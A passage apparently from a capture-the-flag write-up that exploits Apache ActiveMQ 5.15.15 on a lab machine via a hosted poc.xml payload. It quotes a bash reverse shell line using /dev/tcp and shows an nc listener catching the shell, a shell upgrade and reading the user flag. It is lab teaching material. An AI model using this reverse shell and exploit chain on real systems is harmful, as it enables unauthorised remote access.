 ```
            </constructor-arg>
        </bean>
    </beans>

```

It’s clearly calling a classic [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw), `bash -c 'bash -i >& /dev/tcp/10.10.10.10/9001'`. I’ll update the payload to my IP address and host it with the Python webserver.

With `nc` listening on 9001, I’ll run the exploit again. It fetches `poc.xml` (twice):

```
10.10.11.243 - - [08/Nov/2023 13:34:37] "GET /poc.xml HTTP/1.1" 200 -
10.10.11.243 - - [08/Nov/2023 13:34:37] "GET /poc.xml HTTP/1.1" 200 -

```

And then a shell at `nc`:

```
oxdf@hacky$ nc -lnvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.11.243 60298
bash: cannot set terminal process group (880): Inappropriate ioctl for device
bash: no job control in this shell
activemq@broker:/opt/apache-activemq-5.15.15/bin$

```

I’ll do a [shell upgrade](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```
activemq@broker:/opt/apache-activemq-5.15.15/bin$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
activemq@broker:/opt/apache-activemq-5.15.15/bin$ ^Z
[1]+  Stopped                 nc -lnvp 9001
oxdf@hacky$ stty raw -echo ; fg
nc -lnvp 9001
             reset
reset: unknown terminal type unknown
Terminal type? screen
activemq@broker:/opt/apache-activemq-5.15.15/bin$

```

And grab `user.txt`:

```
activemq@broker:~$ cat user.txt
61b5553d************************

```

## Shell as root
